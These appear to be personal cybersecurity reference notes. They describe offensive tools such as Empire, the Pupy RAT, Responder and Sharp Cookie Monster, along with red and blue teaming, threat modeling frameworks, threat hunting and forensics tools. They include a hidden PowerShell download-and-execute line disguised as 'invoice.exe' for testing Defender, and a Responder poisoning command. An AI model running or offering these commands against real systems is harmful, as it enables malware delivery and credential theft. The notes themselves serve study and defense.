Nikto is not designed as a stealthy tool. It will test a web server in the quickest time possible, and is obvious in log files or to an IPS/IDS. However, there is support for LibWhisker's anti-IDS methods in case you want to give it a try (or test your IDS system).


Not every check is a security problem, though most are. There are some items that are "info only" type checks that look for things that may not have a security flaw, but the webmaster or security engineer may not know are present on the server. These items are usually marked appropriately in the information printed. There are also some checks for unknown items which have been seen scanned for in log files.

https://cirt.net/Nikto2 

===== Powershell Empire
Empire has an inbuilt listener named http_hop which allows us to redirect our traffic to one of our another active listener after getting an agent. Thus, the name hop as it hops the agent from one listener to another in order to redirect traffic.

Similar to Metasploit, the hop listener in empire uses a hop.php file. When you activate the hop listener, it will generate three PHP files that will redirect your existing listener. Place the said files in your jump server (ubuntu) and then set up your stager in according to get the session through the mediator i.e. our hop listener.
Link: https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/

===== Pupy
Pupy is a cross-platform, post exploitation tool as well as a multi-function RAT. It’s written in python which makes it very convenient. It also has low detectability that’s why it’s a great tool for the red team.  Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

It uses a reflected DLL to load python interpreter from memory which is great as nothing will be shown in the disk. It doesn’t have any special dependencies. It can also migrate into other processes. The communication protocols of pupy are modular and stackable. It can execute non-interactive commands on multiple hosts at once. All the interactive shells can be accessed remotely.
Link: https://www.hackingarticles.in/command-control-tool-pupy/

===== Responder
This tool is first an LLMNR and NBT-NS responder, it will answer to *specific* NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409). By default, the tool will only answers to File Server Service request, which is for SMB. The concept behind this, is to target our answers, and be stealthier on the network. This also helps to ensure that we don’t break legitimate NBT-NS behavior. You can set the -r option to 1 via command line if you want this tool to answer to the Workstation Service request name suffix.

Usage Example
Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):

	responder -i 192.168.1.202 -w On -r On -f On

===== Sbmclient

===== Sharp Cookie Monster

If you steal a users Chrome cookie, you can log into their accounts on every website they are logged into.

Normally you need the user’s password to do it, @mangopdf found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol

This tool is based on Cookie Crimes module: https://github.com/defaultnamehere/cookie_crimes 

Link: https://www.blackhatethicalhacking.com/tools/sharp-cookie-monster/

===== Smbmap

===== SSLStrip

===== Sublist3r

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. It helps penetration testers and bug hunters collect and gather subdomains for the domain they are targeting. Sublist3r enumerates subdomains using many search engines such as Google, Yahoo, Bing, Baidu, and Ask. Sublist3r also enumerates subdomains using Netcraft, Virustotal, ThreatCrowd, DNSdumpster, and ReverseDNS.

*Installation*
. Login as root
. Open a terminal session
. Change directory to /opt

	cd /opt

. Download the latest version from git

	git clone https://github.com/aboul3la/Sublist3r.git

. Change the directory to Sublist3r:

	cd Sublist3r

. Install the required dependencies:

	pip install -r requirements.txt

. Execute the sublist3r

	python sublist3r -h
	or
	./sublist3r.py -h 

[horizontal]
Source:: https://github.com/aboul3la/Sublist3r
Author:: Ahmed Aboul-Ela
License:: GPL-2+

===== TheHarvester

===== Tokenvator
A Tool to Elevate Privilege using Windows Tokens

Link: https://blog.netspi.com/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/

===== TruffleHog

Link: https://github.com/dxa4481/truffleHog

===== Wfuzz
Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc.

[horizontal]
Source:: https://github.com/xmendez/wfuzz/
Author:: Christian Martorella, Carlos del ojo, Xavier Mendez aka Javi
License:: GPLv2

===== Yara


==== Red team Assessment
A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible. The Red Team Assessment emulates a malicious actor targeting attacks and looking to avoid detection, similar to an Advanced Persistent Threat (APT). (Ugh! I said it…) Red Team Assessments are also normally longer in duration than Penetration Tests. A Penetration Test often takes place over 1-2 weeks, whereas a Red Team Assessment could be over 3-4 weeks or longer, and often consists of multiple people.

A Red Team Assessment does not look for multiple vulnerabilities but for those vulnerabilities that will achieve their goals. The goals are often the same as the Penetration Test. Methods used during a Red Team Assessment include Social Engineering (Physical and Electronic), Wireless, External, and more. A Red Team Assessment is NOT for everyone though and should be performed by organizations with mature security programs. These are organizations that often have penetration tests done, have patched most vulnerabilities, and have generally positive penetration test results.

The Red Team Assessment might consist of the following:

A member of the Red Team poses as a Fed-Ex delivery driver and accesses the building. Once inside, the Team member plants a device on the network for easy remote access. This device tunnels out using a common port allowed outbound, such as port 80, 443, or 53 (HTTP, HTTPS, or DNS), and establishes a command and control (C2) channel to the Red Team's servers. Another Team member picks up the C2 channel and pivots around the network, possibly using insecure printers or other devices that will take the sights off the device placed. The Team members then pivot around the network until they reach their goal, taking their time to avoid detection.

This is just one of innumerable methods a Red Team may operate but is a good example of some tests we have performed.

* Offensive Security
* Ethical Hacking
* Exploiting Vulnerabilities
* Penetration Testing
* Black Box Testing
* Social Engineering
* Web App Scanning

===== Red Team Resources

. https://www.hackingarticles.in/red-teaming/ 

====== Remote Access Trojan (RAT)
Link: https://github.com/b4rtik/RedPeanut


==== Blue Team Assessment
Blue team assessment is usually a test of the teams' ability to identify and defend the network while under attack by the Red Teams/Penetration Tester/Hacker.

* Defensive Security
* Infrastructure Protection
* Damage Control
* Incident Response
* Operational Security
* Threat Hunters
* Digital Forensics

===== Powershell to test Windows Defender

	powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'

==== Purple Team
* Collaborative Security
* Reand & Blue Teams Function Together
* Cooperate to improve/test detection
* Vulnerability Scanning & Pen Testing

==== Methods
social engineering, phishing, vishing or simply posing as a company employee.

=== Threat Modeling
Threat modeling is a process by which potential threats, such as structural vulnerabilities can be identified, enumerated, and prioritized – all from a hypothetical attacker’s point of view. The purpose of threat modeling is to provide defenders with a systematic analysis of the probable attacker’s profile, the most likely attack vectors, and the assets most desired by an attacker. Threat modeling answers the questions “Where are the high-value assets?” “Where am I most vulnerable to attack?” “What are the most relevant threats?” “Is there an attack vector that might go unnoticed?

It is a structured approach that enables you to identify, quantify, and address the security risks associated with an application. Threat modeling is not an approach to reviewing code, but it does complement the security code review process.

==== CVSS
CVSS stands for Common Vulnerability Scoring System, which provides a score to indicate the severity of the CVE vulnerabilities.

Assignment of a CVSS score is based on:

* The primary impact on the confidentiality, integrity, and availability of the protected system/resources
* The derivative impact on loss of life and/or properties
* The percentage of the impacted area within the total environment
* How easy it is to exploit the vulnerability
* How easy it is to remediate the vulnerability
* How confident the testing team is about the existence of the vulnerability

==== NVD
National Vulnerability Database (NVD) is the U.S. government repository of standards based vulnerability management data. NVD also provides severity rankings of "Low," "Medium," and "High" in addition to the numeric CVSS scores. These qualitative rankings are simply mapped from the numeric CVSS scores:

* Vulnerabilities are labeled "Low" severity if they have a CVSS base score of 0.0-3.9.
* Vulnerabilities will be labeled "Medium" severity if they have a base CVSS score of 4.0-6.9.
* Vulnerabilities will be labeled "High" severity if they have a CVSS base score of 7.0-10.0.

==== STRIDE
STRIDE is a model of threats developed by Praerit Garg and Loren Kohnfelder at Microsoft[1] for identifying computer security threats.[2] It provides a mnemonic for security threats in six categories.[3]

The threats are:

* **S**poofing of user identity
* **T**ampering
* **R**epudiation
* **I**nformation disclosure (privacy breach or data leak)
* **D**enial of service (D.o.S)
* **E**levation of privilege.

==== DREAD
DREAD methodology is used to rate, compare and prioritize the severity of risk presented by each threat that is classified using STRIDE.

* **D**amage
* **R**eproducibility
* **E**xploitability
* **A**ffected Users
* **D**iscoverability

DREAD Risk = (Damage + Reproduciblity + Exploitability + Affected Users + Discoverability) / 5. Calculation always produces a number between 0 and 10. Higher the number means more serious the risk is.

Following is a customized mathematical approach to implement DREAD methodology:-

*Damage Potential*
If a threat exploit occurs, how much damage will be caused?

* 0 = Nothing
* 5 = Information disclosure that could be used in combination with other vulnerabilities
* 8 = Individual/employer non sensitive user data is compromised.
* 9 = Administrative non sensitive data is compromised.
* 10 = Complete system or data destruction.
* 10 = Application unavailability.

*Reproducible*
How easy is it to reproduce the threat exploit?

* 0 = Very hard or impossible, even for administrators of the application.
* 5 = Complex steps are required for authorized user.
* 7.5 = Easy steps for Authenticated user
* 10 = Just a web browser and the address bar is sufficient, without authentication.

*Exploit-ability*
What is needed to exploit this threat?

* 2.5 = Advanced programming and networking knowledge, with custom or advanced attack tools.
* 5 = Exploit exits in public, using available attack tools.
* 9 = A Web Application Proxy tool
* 10 = Just a web browser

*Affected Users*
How many users will be affected?

* 0 = None
* 2.5 individual/employer that is already compromised.
* 6 = some users of individual or employer privileges, but not all.
* 8 = Administrative users
* 10 = All users

*Discover-ability*
How easy is it to discover this threat?

* 0 = Very hard requires source code or administrative access.
* 5 = Can figure it out by monitoring and manipulating HTTP requests
* 8 = Details of faults like this are already in the public domain and can be easily discovered using a search engine.
* 10 = the information is visible in the web browser address bar or in a form.

DREAD methodology can be customized to cater the needs of your application, during consultancy engagements it should be approved from the client before starting the security assessment so that after you perform the analysis the results produced by DREAD couldn’t be challenged.

=== Threat Intelligence
This is the key methodology that every cyber security practictioner should be familiar with.  It ensures that one stays in sync with all the activites of threat actors and use that information to proactively protect their environments.

==== Search Engines

===== IoT



==== Threat Exchanges


==== MITRE ATT&CK
https://attack.mitre.org/[MITRE ATT&CK™] is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for the development of specific threat models and methodologies in the private sector, in government, and in the cyber security product and service community.

With the creation of ATT&CK, MITRE is fulfilling its mission to solve problems for a safer world — by bringing communities together to develop more effective cybersecurity. ATT&CK is open and available to any person or organization for use at no charge.

==== Open Threat Exchange(OTX)

==== Palo Alto Unit42
Unit 42 is the global threat intelligence team at Palo Alto Networks®

.. Palo Alto Unit42 website: https://unit42.paloaltonetworks.com/ 
.. Playbook: https://pan-unit42.github.io/playbook_viewer/ 

https://www.packetstormsecurity.com
https://www.securityfocus.com
https://www.exploit-db.com

==== Cisco Talos
Cisco Talos Intelligence Group is one of the largest commercial threat intelligence teams in the world, comprised of world-class researchers, analysits and engineers.  These teams are supposed by unrivaled telemetry and sophisticated systems to create accurate, rapid and actionable threat intelligence for Cisco Customers, products and services.  Talos defends Cisco customers against knowns and emerging threats, discovers new vulnerabilities in common software, and interdicts threats in the wild beofre they can further harm the internet at large.  Talos maintains the official rules sets of Snort.org, ClamAV, and SpanCop, in addition to releasing many open-source research and analysis tools.

Talos was formed by combining SourceFire's Vulnerability Research Team, the Cisco Threat Research and Communications group, and the Cisco Security Applications Group.  The combined expertise is backed by a sophisticated infrastrucutre, and Cisco's unrivaled telemetry of data that spans across networks, endpoints, cloud environments, virtual systems, and daily web and email traffic.

Link: https://talosintelligence.com/ 

==== Sophos Labs


Link: https://www.sophos.com/en-us/labs.aspx 

==== STIX
STIX (Structured Threat Information eXpression) was originally conceived as a language to describe cyber threat intelligence. This was groundbreaking at the time because it was the first language to provide a definition of cyber threat intelligence. Although it’s a bit of a fuzzy term, cyber threat intelligence generally describes information about adversaries and their behaviors that can inform defensive actions. For example, knowing that a certain adversary targets financial institutions by using specially crafted spear-phishing emails, and then delivers Trojans that will reach out to a certain set of websites that are known to be malicious, can be very helpful in defending against the attack. STIX captures that type of intelligence in a machine-readable form so that it can be shared among organizations and tools.

The DHS Office of Cybersecurity and Communications funded MITRE, beginning in 2012, to act as the technical developer of STIX and serve as a community facilitator to jumpstart STIX. Once some level of maturity was reached, STIX would be transitioned to an international standards body. That goal was realized in 2015 when governance of STIX was transitioned to OASIS, an international standards consortium. This was a big step for STIX and a big success for DHS, MITRE, and the community because it meant that STIX was on its way to becoming an international standard. Although DHS and MITRE continue to serve in several leadership positions in the CTI TC, the majority of the leadership and the vast majority of participants in the TC are from industry. In fact, the OASIS CTI TC was founded with more participants than any other TC in OASIS history. It's that community that led the development of STIX 2.0.

==== TAXII
TAXII is a high-level protocol for moving cyber threat intelligence (primarily STIX) data around between systems and tools. We expect that, within the coming months, TAXII will be achieving this same milestone and opening its own public review period.

If you're interested in learning more about STIX 2.0 or TAXII 2.0, the documentation page is the best place to start.

==== Tools

===== MISP
MISP - Open Source Threat Intelligence Platform & Open Standards For Threat Information Sharing

Link: https://www.misp-project.org/

=== Threat Hunting
Threat hunting is a relatively new focal area in information security.  Actively looking for C2C in your environment.  Firewalls, IDS/IPS, SIEM are not able to detect C2C.

*Beacons*
Looking for persistent outbound signal
* Is there consistency in timing
* 

==== Sysmon
Microsoft Sysinternals Sysmon configuration repository, set up modular for easier maintenance and generation of specific configs.
link: https://github.com/olafhartong/sysmon-modular

==== Detecting C2 over DNS
* Capture all DNS traffic
** Capture tool of your choice
** Longer the capture time, the better
* Filter so it is DNS traffic only
* Extract to text so we can sort and count
* Review total FQDNs per domain
* Check domain with a lot of FQDNs

==== RITA

Link: https://www.activecountermeasures.com/free-tools/rita/ 

==== Tshark
	tshark -q -z conv,ip -r dnscat2.pcapng | tr -s ' ' | cut -d " " -f 1,2,3,10 | sort -k 4 -rn | head 
	
	tshark -r thunt-lab.pcapng -T fields -e dns.qry.name | sort |uniq | rev | cut -d '.' -f 1-2 |rev | uniq -c | sort -rn | head -10

==== Zeek
Network sniffing tool, formerly called Bro.


==== Reference Sites
. https://pentestmag.com/using-the-mitre-attck-navigator-for-intelligence-gathering-pre-purple-teaming/
. https://www.activecountermeasures.com/raspberry_pi_sensor/
. https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000ClarCAC
. https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0
. https://www.twistlock.com/2019/01/02/whitelisting-blacklisting-security-strategy/
. https://en.wikipedia.org/wiki/Domain_fronting
. https://www.bleepingcomputer.com/news/security/teamviewer-confirms-undisclosed-breach-from-2016/
. https://www.linkedin.com/posts/kirtaroza_cyberthreatintelligence-note-paython-activity-6600672896148959232-J-r8/
. https://github.com/activecm/passer
. http://www.stearns.org/doc/pcap-apps.html
. HELKS
. SELKS
. Packet Squirrel https://shop.hak5.org/products/packet-squirrel
. https://register.gotowebinar.com/register/2540509980495221261?source=ACMtwitter
. netgear gs305e

=== Threat Risk Assessments
*Threat*: Any potential actor that has the capability, motivation, or intent to exploit a vulnerability.
Vulnerability: Is a weakness that allows a threat to compromise the security of a system.

*Risk*: Likelihood of a threat source to exploit a vulnerability to target a critical asset and impact a business negatively.
Controls, safeguards, countermeasures are implemented to reduce the risk.

=== Bug Bounty / Crowsourced Security Platforms
. Hackerone
. Bugcrowd
. Synack
. Detectify
. cobalt
. Open Bug Bounty
. Zerocopter
. YesWeHack
. HackenProof
. Vulnerability Lab
. FireBounty
. BugBounty.jp
. AntiHACK
. Intigriti
. SafeHats
. RedStorm
. Cyber Army ID
. Yogosha

<<<
== Digital Forensics & Incident Response

=== Preparation
. Never use flow charts for incident response
. Know your tools, practise, practise, practise
. Have procedures on when and how to use your tools
. There are differences on how to respond to an incident based on based on environment, hence ensure you are familiar with the environment and know which tools to use.  Some to of environments are:
.. On Premise
.. Azure
.. GCP
.. AWS
.. Other cloud provider

=== During the Incident
. Secure the impacted environment to ensure no one but Incident Responders only
. Document every activity during the incident in a log to ensure you have a timeline
. Dump the memory using following tools(this is not an exhaustive list):
.. PMEM
.. FTKIMAGER
. Decide which logs do you need to conduct your analysis, for example:
.. Active Directory Logs if you are an AD Shop, 99% environments today are.
.. File Server Logs
.. Web Server Logs
.. Application Server Logs
.. Database Server Logs
.. Firewall Logs
.. Switch Logs
.. Router Logs
.. Access Point Logs

==== Windows Persistence
Focus on System & Security logs.  Standard artifact utilized in any investigation.

Following log types are important:

. Task logs 
. Events concerning services
.. 7045 - Code for new service installed, should be a low frequency event.
.. 7009 - Service failed to start, what should be running and is not.
.. 7035/7036 - Services being tampered with for malicious purposes. Look for services that have no descrption, and have image path that is in a non standard directory.  DLL is in the same directory as exe, which is a side loading technique. Check for start type, if it is changed to 2, which is auto start. Type 10 means that the service is running under user account authority.
.. 601 - Attempt to install a service
.. 7034 - Service has crashed unexpectedly
. Events concerning schedules tasks
.. 4698 - When a scheduled task is created on a system that has been compromised
.. 4702 - When a scheduled task has been altered
.. 4701/4699 
.. 4700 - A scheduled task has been enabled.

Scheduled tasks with abnormal names or directories.  Attackers usually create a verly long task name.  Check the command syntax.

=== System Tools

==== DeepBlueCLI
https://github.com/sans-blue-team/DeepBlueCLI[DeepBlueCLI] is a PowerShell Module for Threat Hunting via Windows Event Logs.

===== References
. https://holisticinfosec.io/post/deepbluecli/[DeepBlueCLI: Powershell Threat Hunting]
. https://www.netscylla.com/blog/2020/02/01/Threat-hunting-with-Windows-Event-Logs.html[Threat Hunting with Windows Event Logs & Sysmon]

==== Autollr
AutoLLR is a live Linux evidence collection script that gathers key artifacts important for Incident Response investigations. In addition to gathering artifacts AutoLLR does some low overhead post processing to produce refined results that analysts can look at immediately.

Github: https://github.com/Dead-Simple-Scripts/AutoLLR 

Dead Simple Scripts: http://github.com/Dead-Simple-Scripts 

==== Autopsy
Autopsy® is the premier end-to-end open source digital forensics platform. Built by Basis Technology with the core features you expect in commercial forensic tools, Autopsy is a fast, thorough, and efficient hard drive investigation solution that evolves with your needs.

https://www.autopsy.com/

==== Bluegate
Proof of Concept (Denial of Service + scanner) for CVE-2020-0609 and CVE-2020-0610.

These vulnerabilities allows an unauthenticated attacker to gain remote code execution with highest privileges via RD Gateway for RDP.

Please use for research and educational purpose only.
Link: https://github.com/ollypwn/BlueGate

==== Bulk-extractor
It is a program that extracts features such as email addresses, credit card numbers, URLs, and other types of information from digital evidence files. It is a useful forensic investigation tool for many tasks such as malware and intrusion investigations, identity investigations and cyber investigations, as well as analyzing imagery and pass-word cracking. The program provides several unusual capabilities including:

* It finds email addresses, URLs and credit card numbers that other tools miss because it can process compressed data (like ZIP, PDF and GZIP ﬁles) and incomplete or partially corrupted data. It can carve JPEGs, office documents and other kinds of files out of fragments of compressed data. It will detect and carve encrypted RAR files.
* It builds word lists based on all of the words found within the data, even those in compressed files that are in unallocated space. Those word lists can be useful for password cracking.
* It is multi-threaded; running bulk_extractor on a computer with twice the number of cores typically makes it complete a run in half the time.
* It creates histograms showing the most common email addresses, URLs, domains, search terms and other kinds of information on the drive.

Link: https://tools.kali.org/forensics/bulk-extractor

==== Cortex
https://github.com/TheHive-Project/Cortex/[Cortex] tries to solve a common problem frequently encountered by SOCs, CSIRTs and security researchers in the course of threat intelligence, digital forensics and incident response: how to analyze observables they have collected, at scale, by querying a single tool instead of several?

Cortex, an open source and free software, has been created by TheHive Project for this very purpose. Observables, such as IP and email addresses, URLs, domain names, files or hashes, can be analyzed one by one or in bulk mode using a Web interface. Analysts can also automate these operations thanks to the Cortex REST API.

==== DensityScout
DensityScout is a tool that has been written for one purpose: finding (possibly unknown) malware on a potentially infected system. Therefore it takes advantage of the typical approach of malware authors to protect their "products" with obfuscation like run-time-packing and -encryption. The tool itself is based on the concept of our Bytehist tool, btw.

*So what does DensityScout do?*
DensityScout's main focus is to scan a desired file-system-path by calculating the density of each file to finally print out an accordingly descending list. Usually most Microsoft Windows executables are not packed or encrypted in any way which throws the hits of malicious executables to the top of the list where one can easily focus on.

*What's Density?*
Density can also be understood as "entropy". However, the algorithm behind density is not 100% equal to the one which entropy is based on. So we decided to choose a different name.

Link: https://www.cert.at/downloads/software/densityscout_en.html

==== First Incident Response
https://github.com/certsocietegenerale/FIR[FIR] (Fast Incident Response) is an cybersecurity incident management platform designed with agility and speed in mind. It allows for easy creation, tracking, and reporting of cybersecurity incidents.

FIR is for anyone needing to track cybersecurity incidents (CSIRTs, CERTs, SOCs, etc.). It was tailored to suit our needs and our team's habits, but we put a great deal of effort into making it as generic as possible before releasing it so that other teams around the world may also use it and customize it as they see fit.

==== Kape
KAPE is a multi-function program that primarily: 

. collects files
. processes collected files with one or more programs.

KAPE reads configuration files on the fly and based on their contents, collects and processes relevant files. This makes KAPE very extensible in that the program’s author does not need to be involved to add or expand functionality.

As we will see later in more detail, KAPE uses the concepts of targets and modules to do its work. KAPE comes with a range of default targets and modules for operations most commonly required in forensic exams. These can also serve as models  for creating new targets and modules.

At a high level, KAPE works by adding file masks to a queue. This queue is then used to find and copy files from a source location. For files that are locked by the operating system, a second run bypasses the lock. At the end of the process, KAPE will make a copy and preserve metadata about all available files from a source location into a given directory. The second (optional) stage of processing is to run one or more programs against the collected data. This too works by targeting either specific file names or directories. Various programs are run against the files, and the output from the programs is then saved in directories named after a category, such as EvidenceOfExecution, BrowserHistory or AccountUsage.

By grouping things by category, examiners of all skill levels have the means to discover relevant information regardless of an individual artifact's source. In other words, an examiner no longer need to know how to process prefetch, shimcache, amcache, userassist, etc., as they relate to evidence of execution artifacts. Ultimately, a wider range of artifacts can be leveraged for any given requirement.

Link: https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape

==== LogonTracer
https://github.com/JPCERTCC/LogonTracer[LogonTracer] is a tool to investigate malicious logon by visualizing and analyzing Windows Active Directory event logs. This tool associates a host name (or an IP address) and account name found in logon-related events and displays it as a graph. This way, it is possible to see in which account login attempt occurs and which host is used.
This tool can visualize the following event id related to Windows logon based on https://www.first.org/resources/papers/conf2016/FIRST-2016-105.pdf[this research].

* 4624: Successful logon
* 4625: Logon failure
* 4768: Kerberos Authentication (TGT Request)
* 4769: Kerberos Service Ticket (ST Request)
* 4776: NTLM Authentication
* 4672: Assign special privileges

==== Loki
LOKI Free IOC Scanner: http://www.nextron-systems.com/loki/ 

Loki Github: http://github.com/Neo23x0/Loki

Automating APT Scanning with Loki Scanner and Splunk: http://www.redblue.team/2017/04/automating-apt-scanning-with-loki.html

==== Red Ripper
When you an image file, load them into red ripper.  Has plugins that you can run against a registry hive.

==== Rekall
http://www.rekall-forensic.com/[Rekall] is an advanced forensic and incident response framework. While it began life purely as a memory forensic framework, it has now evolved into a complete platform.  Rekall implements the most advanced analysis techniques in the field, while still being developed in the open, with a free and open source license. Many of the innovations implemented within Rekall have been published in http://www.rekall-forensic.com/documentation-1/publications[peer reviewed papers] .  

Rekall provides an end-to-end solution to incident responders and forensic analysts. From state of the art acquisition tools, to the most advanced open source memory analysis framework. http://www.rekall-forensic.com/documentation-1/rekall-documentation/rekall-at-a-glance[Rekall at a glance].

==== Rsync
Last ditch collection tool.  

==== SIFT Workstation
The https://digital-forensics.sans.org/community/downloads[SIFT] Workstation is a group of free open-source incident response and forensic tools designed to perform detailed digital forensic examinations in a variety of settings. It can match any current incident response and forensic tool suite. SIFT demonstrates that advanced incident response capabilities and deep dive digital forensic techniques to intrusions can be accomplished using cutting-edge open-source tools that are freely available and frequently updated.

==== Sysmon
A windows system driver that captures events and sends them to eventlog. It can be downloaded from sysinternals website. 

. https://github.com/SwiftOnSecurity/[Swift on Security Sysmon Config file]

==== The Hive Project
https://github.com/TheHive-Project[TheHive] is a scalable 4-in-1 open source and free Security Incident Response Platform designed to make life easier for SOCs, CSIRTs, CERTs and any information security practitioner dealing with security incidents that need to be investigated and acted upon swiftly. It is the perfect companion for MISP. You can synchronize it with one or multiple MISP instances to start investigations out of MISP events. You can also export an investigation's results as a MISP event to help your peers and partners detect and react to attacks you've dealt with. Additionally, when TheHive is used in conjunction with Cortex, security analysts and researchers can easily analyze hundred of observables at once using more than 100 analyzers, contain an incident or eradicate malware thanks to Cortex responders.

==== Volatility Framework
Digital investigations had focused primarily on finding contraband within hard drive images. https://www.volatilityfoundation.org/[Volatility Foundation] introduced people to the power of analyzing the runtime state of a system using the data found in volatile storage (RAM). It also provided a cross-platform, modular, and extensible platform to encourage further work into this exciting area of research. Another major goal of the project was to encourage the collaboration, innovation, and accessibility to knowledge that had been common within the offensive software communities.

​Since that time, memory analysis has become one of the most important topics to the future of digital investigations and Volatility has become the world’s most widely used memory forensics platform. The project is supported by one of the largest and most active communities in the forensics industry. Volatility also provides a unique platform that enables cutting edge research to be immediately transitioned into the hands of digital investigators. As a result, research built on top of Volatility has appeared at the top academic conferences and Volatility has been used on some of the most critical investigations of the past decade. It has become an indispensible digital investigation tool relied upon by law enforcement, military, academia, and commercial investigators throughout the world.

Volatility development is now supported by The Volatility Foundation, an independent 501(c) (3) non-profit organization. The foundation was established to promote the use of Volatility and memory analysis within the forensics community, to defend the project's intellectual property (trademarks, licenses, etc.) and longevity, and, finally, to help advance innovative memory analysis research. Along these lines, the foundation was also formed to help protect the rights of the developers who sacrifice their time and resources to make the world’s most advanced memory forensics platform free and open source.

==== Winpmem

==== Persistence Investigations & Layered Drivers
* Layered drivers help find network sniffers, keyboard key loggers
* Triage methodology for persistence, focusing on layered drivers
* Common attacker practices:
** Redline - detects drivers and displaying information about them
** NTFS Driver - System Restore Driver should be check what is layered on top of it. It is called SR
KBD Class driver, associated with Key logging driver.

New Audit Viewer for Memoryze: https://www.fireeye.com/blog/threat-research/2008/11/new-audit-viewer-for-memoryze.html
Forensics #2 / Windows Forensics using Redline: https://attackersmindset.com/2018/05/22/forensics-2-windows-forensics-using-redline/
Redline user’s Guide: https://www.fireeye.com/content/dam/fireeye-www/services/freeware/ug-redline.pdf

==== SOF ELK

SOF-ELK® is a “big data analytics” platform focused on the typical needs of computer forensic investigators/analysts and information security operations personnel. The platform is a customized build of the open source Elastic stack, consisting of the Elasticsearch storage and search engine, Logstash ingest and enrichment system, Kibana dashboard frontend, and Elastic Beats log shipper (specifically filebeat). With a significant amount of customization and ongoing development, SOF-ELK® users can avoid the typically long and involved setup process the Elastic stack requires. Instead, they can simply download the pre-built and ready-to-use SOF-ELK® virtual appliance that consumes various source data types (numerous log types as well as NetFlow), parsing out the most critical data and visualizing it on several stock dashboards. Advanced users can build visualizations the suit their own investigative or operational requirements, optionally contributing those back to the primary code repository.

Link: https://github.com/philhagen/sof-ELK 
Training: https://youtu.be/Hk6An-LJ4jY   

==== Base64 Encoded Data
Base64 endoded data is not human readable, but it is determinsitic, similar to rot13 decoder.

. https://digital-forensics.sans.org/blog/2011/01/09/digital-forensics-finding-encoded-evidence[Finding encoded evidence]
. https://az4n6.blogspot.com/2017/10/finding-and-decoding-malicious.html[Finding and Decoding Malicious PowerShell Scripts]
. https://skorks.com/2009/08/different-types-of-encoding-schemes-a-primer/[Different Types Of Encoding Schemes – A Primer]
. https://github.com/secnonsense/decode.py[Python Decoder]

=== Network Tools

==== Security Onion
https://securityonion.net/[Security Onion] is a free and open source Linux distribution for intrusion detection, enterprise security monitoring, and log management. It includes Elasticsearch, Logstash, Kibana, Snort, Suricata, Zeek (formerly known as Bro), Wazuh, Sguil, Squert, CyberChef, NetworkMiner, and many other security tools. The easy-to-use Setup wizard allows you to build an army of distributed sensors for your enterprise in minutes!

==== Suricata
https://suricata-ids.org/[Suricata] is a free and open source, mature, fast and robust network threat detection engine.

The Suricata engine is capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing.

Suricata inspects the network traffic using a powerful and extensive rules and signature language, and has powerful Lua scripting support for detection of complex threats.

With standard input and output formats like YAML and JSON integrations with tools like existing SIEMs, Splunk, Logstash/Elasticsearch, Kibana, and other database become effortless.

Suricata’s fast paced community driven development focuses on security, usability and efficiency.

The Suricata project and code is owned and supported by the Open Information Security Foundation (OISF), a non-profit foundation committed to ensuring Suricata’s development and sustained success as an open source project.

==== Bro/Zeek
https://zeek.org/[Zeek] is an open source software platform that provides compact, high-fidelity transaction logs, file content, and fully customized output to analysts, from the smallest home office to the largest, fastest research and commercial networks.

Zeek helps organizations understand how their network is being used, supporting security, performance, audit, and capacity missions.

Thanks to its network optimized programming language, vibrant open source community, and global footprint, Zeek provides the data and insights needed to tackle today’s toughest network challenges, in the enterprise, cloud, and industrial computing environments.

==== RITA
https://www.blackhillsinfosec.com/projects/rita/[RITA] stands for Real Intelligence Threat Analytics.   It helps you to not look at individual TCP streams, but rather look at the communication as it relates to much larger timeframes.

RITA's specific goal in life is frequency analysis and beconing detection.  It also does black list analysis, long connection analysis. It uses median and average distribution of a mean.

==== Ntop
https://www.ntop.org/[ntop] started as an open source project in 1998 whose goal was to create a simple yet effective web-based traffic monitoring platform. Many things have changed since then, including the nature of the traffic being analyzed, operating systems running on PCs, and the type of users. ntop changed too and from a single-project centric effort, we evolved into a full fledged research company whose goal is still the original one. Namely innovate in network monitoring using commodity hardware and open-source operating systems. As we benefit from the open-source community, we feel obliged to return to the community what we develop, so that many others, and not just us, can benefit too.

The industry is full of hardware companies who bundle their products with open-source products, just to offer a sale argument for their products. Or software companies who depend on other (either hardware or software companies) for running their applications. ntop does not belong to any of these categories. We are not hardware-vendor dependent, and our software does not rely on third-party companies who might impose high license fee or decide to send us (and thus our users) out of business. We are developing both software that better exploit commodity hardware (so we’re not vendor locked) and that runs on the operating system kernel, and monitoring applications. We control the whole lifecycle, optimize every single bit, and provide you support for all our components, as we have developed them and nobody knows them better than us. This is quite rare on this market, and thus we have the ability to optimize the software for the hardware we use, and create better products. Very few other companies such as Ferrari, Ducati or Apple can do that (we’re small but we believe we belong to this club).

==== Coffee

==== Wireshark

=== Reverse Engineering

Link: https://github.com/0xZ0F/Z0FCourse_ReverseEngineering
Link: https://github.com/wtsxDev/reverse-engineering

=== References
